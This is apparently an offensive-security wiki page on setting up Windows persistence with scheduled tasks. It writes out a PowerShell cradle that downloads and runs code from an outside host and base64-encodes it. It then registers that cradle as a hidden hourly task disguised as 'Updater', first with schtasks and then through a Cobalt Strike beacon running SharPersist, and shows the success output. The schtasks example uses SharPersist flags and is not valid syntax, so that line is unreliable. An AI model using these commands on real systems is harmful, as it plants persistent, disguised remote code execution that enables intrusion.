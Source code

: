 # Scheduled Tasks

### PowerShell

For this example we will base64 encode our PowerShell payload using -enc (-EncodedCommand)

<pre><code>PS C:\> $str = 'IEX ((new-object net.webclient).downloadstring("http://copperwired.com/a"))'

<strong>PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
</strong></code></pre>

#### Output:

```
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBjAG8AcABwAGUAcgB3AGkAcgBlAGQAL
gBjAG8AbQAvAGEAIgApACkA
```

#### Execute Payload

We can execute the payload with schtasks

```powershell
PS> schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc 
SQBFAFgAIAAo...ACgAbgBlAHcALQBvAGkA" -n "Updater" -m add -o hourly
```

### CobaltStrike

We can use the `execute-shellcode` command from an existing beacon in CobaltStrike to establish persistence. We'll also have to utilize a tool like [SharPersist](https://github.com/mandiant/SharPersist) as there are no built-in persistence tools.&#x20;

#### Execute Payload

```
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAI...QAvAGEAIgApACkA" -n "Updater" -m add -o hourly

[*] INFO: Adding scheduled task persistence
[*] INFO: Command: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[*] INFO: Command Args: -nop -w hidden -enc SQBFAFgAIAAoACgAbHc...BjAG8AbQAvAGEAIgApACkA
[*] INFO: Scheduled Task Name: Updater
[*] INFO: Option: hourly
[+] SUCCESS: Scheduled task added

```

* `-t` is the desired persistence technique.
* `-c` is the command to execute.
* `-a` are any arguments for that command.
* `-n` is the name of the task.
* `-m` is to add the task (you can also `remove`, `check` and `list`).
* `-o` is the task frequency.

### Confirm

We can confirm we successfully created a scheduled task by opening the Task Scheduler.

<figure><img src="../../.gitbook/assets/Screenshot 2024-07-31 at 2.09.43 AM.png" alt=""><figcaption></figcaption></figure>
